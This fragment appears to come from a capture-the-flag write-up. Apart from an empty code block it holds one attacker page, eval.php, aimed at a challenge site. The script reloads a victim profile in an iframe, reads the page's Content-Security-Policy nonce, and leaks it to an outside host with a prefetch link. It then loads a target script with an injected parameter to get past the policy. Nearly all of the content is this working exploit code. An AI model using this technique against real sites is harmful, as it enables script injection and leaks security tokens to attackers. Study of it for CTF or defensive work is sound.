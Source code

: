 ```python

```



**eval.php**

```php+HTML
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>eval</title>
	<script src="https://h4x0rs.date/assets/jquery-3.3.1.min.js"></script>
	<script>
         // 加载user2的资料页
		function aa(){
			var iframe = document.createElement('iframe'); 
			iframe.src="https://h4x0rs.date/profile.php?id=1d70f9cca4ab0d188c0cc9524b0d92705607d9b0d2e3923841e8b194ac7601cc";  
			document.body.appendChild(iframe);
		}
        
         
		$(document).ready( function () {
		  //获取nonce
           var m = $("meta[http-equiv=Content-Security-Policy]");
		  var nonce=m.attr("content");

		  // 通过savea.php将nonce保存为a.txt
           var url="https://eval.com/save_a.php?a=";
		  var n0t = document.createElement("link");
		  n0t.setAttribute("rel", "prefetch");
		  n0t.setAttribute("href", url+nonce);
		  document.head.appendChild(n0t);
           
           //每3秒重新加载一次user2的资料
		  setInterval("aa()", 3000 )
		});
	</script>
    
    
	<script type="text/javascript" src="https://h4x0rs.date/assets/csp.js?id=<?php echo file_get_contents('b.txt');?>&page=profile.php"></script>

</head>
<body>
</body>
</html>

```


